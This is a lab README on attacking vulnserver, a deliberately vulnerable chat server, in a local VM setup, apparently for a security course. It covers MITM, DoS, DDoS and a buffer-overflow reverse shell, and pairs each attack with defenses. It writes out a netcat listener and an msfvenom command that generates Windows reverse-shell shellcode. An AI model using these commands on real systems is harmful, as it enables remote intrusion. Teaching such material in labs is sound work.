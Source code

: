 # Attacks against vulnserver

- [MITM](#mitm)
- [DoS](#dos)
- [DDoS](#ddos)
- [Armitage against vchat](../../MetasploitNewModule)
- [Reverse shell utilizing buffer overflow](#reverse-shell)
- [More buffer overflow attacks](../../Buffer-Overflow/BOF-Remote/)
- [More attacks against vnserver](https://github.com/llan-OuO/VulserverAttacks)

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/1dctJFBwZcI/0.jpg)](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?

```
echo -n 'Your-String-Here' | md5sum
```

* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)
* [Digital signature](https://opensource.com/article/19/6/cryptography-basics-openssl-part-2) - Note: 2048 in the following command is used in the wrong way.
```
openssl genpkey -out privkey.pem -algorithm rsa 2048
```
Correct command is
```
openssl genpkey -out privkey.pem -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Or 2048 can be skipped since the default key size is 2048.

Example signature generation and verification process
```
openssl genpkey -out privkey.pem -algorithm rsa
openssl rsa -in privkey.pem -outform PEM -pubout -out pubkey.pem
openssl dgst -sha256 -sign privkey.pem -out sign.sha256 changelog
openssl enc -base64 -in sign.sha256 -out sign.sha256.base64
openssl enc -base64 -d -in sign.sha256.base64 -out sign.sha256
openssl dgst -sha256 -verify pubkey.pem -signature sign.sha256 changelog
```

## DoS
DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_F88Txt7Qk0/0.jpg)](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS
DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/lOR4hpPfPws/0.jpg)](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell
reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at a terminal of Kali VM
```
nc -l -v -p 4444
``` 

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/LRNZxCC84RI/0.jpg)](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!-- ![msfvenom](../../imgs/msfvenom.PNG) -->

### Defense
First secure coding is needed to avoid buffer overflow vulnerabilities.

* Windows has a lot of secure features, including those defeating memory based attacks. Sloppy coding is always there and people have cooked up defense mechnisms in case it happens. 

To enable all features of Exploit Protection of Windows, find :mag_right: at the bottom-left corner of Windows screen and search "Exploit Protection".

<img src="../../Imgs/WindowsExploitProtection.png" width="25%">

* Virus & threat protection shall be enabled too. At the bottom-left corner of Windows screen and search "Virus". In this picture below, all those features are turned off.
<img src="../../Imgs/VirusProtection.png" width="75%">

